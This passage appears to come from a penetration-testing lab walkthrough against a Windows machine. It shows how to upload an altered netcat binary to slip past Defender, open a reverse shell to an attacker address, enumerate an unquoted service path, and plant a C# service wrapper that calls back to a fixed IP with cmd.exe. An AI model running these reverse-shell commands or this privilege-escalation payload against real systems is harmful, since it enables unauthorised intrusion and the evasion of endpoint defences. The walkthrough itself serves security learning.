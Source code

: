<figure><img src="../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

Now to get a reverse shell, Defender will easily identify a powershell exploit and PHP reverse shells may be unstable, the easiest option is to upload netcat. Here also we need a version different to the norm so Defender can't catch it

{% embed url="https://github.com/int0x33/nc.exe/" %}

Use python server and you get a reverse shell.

`powershell.exe c:\windows\temp\nc-USERNAME.exe ATTACKER_IP ATTACKER_PORT -e cmd.exe`

Refer the above ss, use powershell to prevent shell from exiting early

**Windows Prives you can do w obfus .exe of WinPEAS but manual always imp**

`whoami /priv`\
`whoami /groups`

`wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"`

Returns non core processes, one of them has unquoted service path

`sc qc SystemExplorerHelpService`

`powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"`

Checking if we have write perms to the unquoted path and yes we do

Time to write a service&#x20;

```
using System;
using System.Diagnostics;

namespace Wrapper{
    class Program{
        static void Main(){
            Process proc = new Process();
            ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc-tripz.exe", "10.50.85.244 444 -e cmd.exe");
            procInfo.CreateNoWindow = true;
            proc.StartInfo = procInfo;
            proc.Start();
        }
    }
}
```
